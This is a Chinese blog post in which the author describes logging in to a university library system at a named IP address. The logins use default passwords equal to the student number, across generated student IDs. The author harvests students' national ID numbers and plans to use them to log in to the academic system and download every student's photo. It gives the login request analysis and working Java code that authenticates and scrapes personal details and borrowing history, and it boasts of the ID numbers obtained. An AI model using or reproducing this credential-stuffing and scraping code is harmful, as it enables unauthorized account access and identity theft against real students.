


最近学校宽带总是断网，没办法只能访问学校的内网，很是无聊
打发时间，打算把全校所有学生照片爬取下来
基本思路就是从图书借阅系统入手，登陆名为学号，初始密码是学号，一般很少有人改动，登陆成功后从个人信息那里可以获取到身份证号。根据学号生成的规律把大一到大四的所有学号生成出来，然后模拟登陆，大量身份证号get
其次是教务管理系统，登录名为学号，登陆密码是身份证号，也是很少有人改动，模拟登陆，然后在个人信息那里有一张个人照片，解析到照片地址，下载haha
登陆原理
-
浏览器第一次访问登陆时，没有携带sessionid，然后服务器会生成一个sessionid，并在cookie里面返回sessionid，带给浏览器，之后我们的任何访问都会带上这个sessionid
-
登录时，我们的name和password和Cookie(里面记录了sessionid)都是提交给服务器，如果密码正确，服务器会把用户和sessionid关联，应该是
getSession.setAttribute("name",name)之类的操作 -
访问后台的一些页面时，sessionid会跟随Cookie携带过去，原理应该是
getSession.getAttribute("name")之类的操作，如果不空，根据获得的name进行操作，如果为空则302到登陆界面 -
注销操作，应该是类似
getSession.removeAttribute("name")的操作
请求分析
使用F12开发工具对登陆的请求分析
General
Request URL:http://210.45.147.188:8080/reader/redr_verify.php
Request Method:POST
Status Code:302 Found
Remote Address:210.45.147.188:8080
Request
POST /reader/redr_verify.php HTTP/1.1
Host: 210.45.147.188:8080
Origin: http://210.45.147.188:8080
Content-Type: application/x-www-form-urlencoded
Referer: http://210.45.147.188:8080/reader/redr_verify.php
Cookie: PHPSESSID=hknd8ummdi8tbe5dve7osrm6e4
Form Data
number=xxx&passwd=xxx&select=cert_no&returnUrl=
Response
Content-Type:text/html
Location:redr_info.php
Server:Apache/2.2.22 (Win32) PHP/5.2.17
X-Powered-By:PHP/5.2.17
图书馆登陆代码
public class Main {
public static void main(String[] args) throws IOException {
String number= "***";
String passwd = "****";
//第一次让服务器建立一个sessionid，获取到这个id
URL httpUrl = new URL("http://210.45.147.188:8080/reader/login.php");
HttpURLConnection conn = (HttpURLConnection) httpUrl.openConnection();
String sessionIdStr = conn.getHeaderField("Set-Cookie").substring(0,36);
conn.disconnect();
//第二次访问登陆验证，带上sessionid，发现get可以直接登陆
//密码正确的话是一个302跳转
httpUrl = new URL("http://210.45.147.188:8080/reader/redr_verify.php?number="+number+"&passwd="+passwd+"&select=cert_no&returnUrl=");
conn = (HttpURLConnection) httpUrl.openConnection();
conn.addRequestProperty("Cookie", sessionIdStr);
//为了获取302返回的Location,所以禁止自动跳转到302之后的地址
conn.setInstanceFollowRedirects(false);
String location = conn.getHeaderField("Location");
boolean goNext = false;
if ("redr_con.php".equals(location)) {
System.out.println("您尚未完成身份认证，请进行身份核实, 如果认证失败，您将不能使用我的图书馆功能");
}else if(location==null){
System.out.println("对不起，密码错误，请查实！");
}else{//redr_info.php
System.out.println("成功登入系统....");
goNext = true;
}
conn.disconnect();
if (!goNext) {
return;
}
//进入用户信息首页
//登陆成功时，服务器会把账号和sessionid，后面的操作都不需要用户名和密码了
httpUrl = new URL("http://210.45.147.188:8080/reader/redr_info.php");
conn = (HttpURLConnection) httpUrl.openConnection();
conn.addRequestProperty("Cookie", sessionIdStr);
//输出学生信息
showUserInfo(changeStreamToString(conn.getInputStream(),"utf-8"));
//输出所有历史借阅信息
httpUrl = new URL("http://210.45.147.188:8080/reader/book_hist.php?para_string=all");
conn = (HttpURLConnection) httpUrl.openConnection();
conn.addRequestProperty("Cookie", sessionIdStr);
showBorrowInfo(changeStreamToString(conn.getInputStream(),"utf-8"));
}
//显示个人信息
public static void showUserInfo(String htmlStr){
//使用Jsoup解析Html文档
Document document = Jsoup.parse(htmlStr);
Elements tds = document.getElementById("mylib_info").getElementsByTag("td");
Elements spans = document.getElementById("mylib_info").getElementsByTag("span");
for(int i=1;i<tds.size();i++){
System.out.println(spans.get(i).ownText()+tds.get(i).ownText());
}
}
//显示所有借阅历史
public static void showBorrowInfo(String htmlStr){
Document document = Jsoup.parse(htmlStr);
Elements trs = document.getElementById("mylib_content").getElementsByTag("tr");
for(Element tr:trs){
for(Element td:tr.getElementsByTag("td")){
if (td.getElementsByTag("a").size()!=0) {
System.out.print(td.getElementsByTag("a").get(0).ownText()+"\t");
}else{
System.out.print(td.ownText()+"\t");
}
}
System.out.println();
}
}
public static String changeStreamToString(InputStream inputStream,String edcode) throws IOException{
BufferedReader in = new BufferedReader(new InputStreamReader(inputStream,edcode));
String line;
StringBuffer result = new StringBuffer();
while ((line = in.readLine()) != null)
result.append(line);
return result.toString();
}
}
效果


教务系统登陆
原理同上，和图书馆登陆一样，也是基于session认证
MD 搬到新校区后，第一次登陆教务系统要改密码，全都改了，还不能是纯数字，没办法进行下去了…
就到这里了，反正弄到一大堆身份证号o(≧v≦)o~~好棒